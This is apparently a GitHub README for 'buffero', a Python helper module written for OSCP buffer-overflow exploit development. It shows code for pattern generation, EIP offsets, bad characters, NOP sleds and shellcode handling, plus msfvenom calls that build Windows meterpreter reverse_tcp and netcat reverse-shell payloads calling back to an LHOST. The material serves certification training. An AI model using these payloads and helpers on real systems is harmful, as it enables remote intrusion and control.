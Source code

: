 # buffero

Buffer Overflow Exploit Developement Pyton module

I have created this module while I'm preparing for OSCP. This module helps the Buffer Overflow exploit developement in python language.

# How to use buffero module

This summary will describe how to use buffero

### Generate Cyclic Pattern

The **generate_pattern** function will generate an unique pattern, same as **msf-pattern_create**
```python
import buffero

# Generate 1200 length of Cyclic pattern
# Equivalent with msf-pattern_create -l 1200
pattern = buffero.generate_pattern(1200)
# pattern = Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...
```

---

### Get the offset of the EIP value

The **get_pattern_offset** method will help to find the right offset value
```python
import buffero
    
EIP = '386F4337'	# The value of the EIP register
offset = buffero.get_pattern_offset(1200,EIP)
# offset = 2003
```
---

### Generate Bad Characters

```python
import buffero
    
badchararr = [0x00]	# Specify \x00 as a bad character
    
# Generate a bad character array without the \x00 character
bc = buffero.generate_chars(badchars=badchararr)

# The create_bin variable is False by default, if you enable it, 
# it will create a 'bctest.bin' named file with the generated characters
bc = buffero.generate_chars(badchars=badchararr, create_bin=True)
```
Additionally, the **generate_chars** function will write a result into a file which name is **bctest.bin** if the create_bin variable is set to True. This file is easily examine by xxd command.
```bash
root@kali:~# xxd bctest.bin
00000000: 0102 0304 0506 0708 090a 0b0c 0d0e 0f10  ................
00000010: 1112 1314 1516 1718 191a 1b1c 1d1e 1f20  ................
00000020: 2122 2324 2526 2728 292a 2b2c 2d2e 2f30  !"#$%&'()*+,-./0
00000030: 3132 3334 3536 3738 393a 3b3c 3d3e 3f40  123456789:;<=>?@
00000040: 4142 4344 4546 4748 494a 4b4c 4d4e 4f50  ABCDEFGHIJKLMNOP
00000050: 5152 5354 5556 5758 595a 5b5c 5d5e 5f60  QRSTUVWXYZ[\]^_`
00000060: 6162 6364 6566 6768 696a 6b6c 6d6e 6f70  abcdefghijklmnop
00000070: 7172 7374 7576 7778 797a 7b7c 7d7e 7f80  qrstuvwxyz{|}~..
00000080: 8182 8384 8586 8788 898a 8b8c 8d8e 8f90  ................
00000090: 9192 9394 9596 9798 999a 9b9c 9d9e 9fa0  ................
000000a0: a1a2 a3a4 a5a6 a7a8 a9aa abac adae afb0  ................
000000b0: b1b2 b3b4 b5b6 b7b8 b9ba bbbc bdbe bfc0  ................
000000c0: c1c2 c3c4 c5c6 c7c8 c9ca cbcc cdce cfd0  ................
000000d0: d1d2 d3d4 d5d6 d7d8 d9da dbdc ddde dfe0  ................
000000e0: e1e2 e3e4 e5e6 e7e8 e9ea ebec edee eff0  ................
000000f0: f1f2 f3f4 f5f6 f7f8 f9fa fbfc fdfe ff    ...............
```

---

### Generating NOP Sled


```python
import buffero

nops = buffero.generate_nop_sled(16)
# nops = '\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90'

```

---

### Packing the JMP Address

```python
import buffero

# same as struct.pack('<I',0x625011af)
# but in this case the result will be an str
addr = buffero.pack('<I',0x625011af)

```
---

### Spawning a Reverse Shell

```python
import buffero

# Listening on 0.0.0.0:9001
buffero.spawn_rev_shell(9001)
```

---

### Encoding and Decoding

In python3 socket.send() will work only byte type array. The encode method will encode the given string into 'Latin-1' encoded byte array.
The decode method will do the same but reverse order. Generate a string with 'Latin-1' encoding from byte array. This is useful when shellcode concatenated with the other pieces of the payload.

```python
import buffero

shellcode  = ""
shellcode += b"\xbb\x6a\xf5\xdd\x01\xd9\xe8\xd9\x74\x24\xf4"
...
shellcode += b"\x41\xa1\x25\xeb\xda\x44\x49\x58\xda\x4c"

# Decoding to string the given bytes type shellcode.
payload += offset + eip + padding + buffero.decode(shellcode) + suffix

# Encoding to bytes type array the concatenated payload
s.send(buffero.encode(payload))
```

---

### Generating Shellcode with MsfVenom

This module will use the MsfVenom application which installed on Kali systems by default. The purpose of this module to fasten the developement, avoiding to leave the developement platform, while generating shellcode, and copy and paste it. This module is not too smart but works well, if the requirements are installed.
Important note, the format must be python.
```python
import buffero

msf = msf_shellcode()

# Run custom MsfVenom command and get the shellcode back
# No need to specify the 'msfvenom' word
shellcode = msf.run_msfvenom_command('-p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=9001 EXITFUNC=thread -f python')
# shellcode = \xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b...

# Use predefined functions for fasten the developement
# Keyword arguments are enabled.
# Create POP CALC for determine the exploit is working.
shellcode = msf.generate_popcalc(exitfunc="thread",badchars="\\x00\\x0a")	# Escaping bad caharacters is important especially NULL sequence

# Create Netcat catchable Reverse shell.
shellcode = msf.generate_ncrev_shell(exitfunc="thread",badchars="",lhost="",lport="")
```
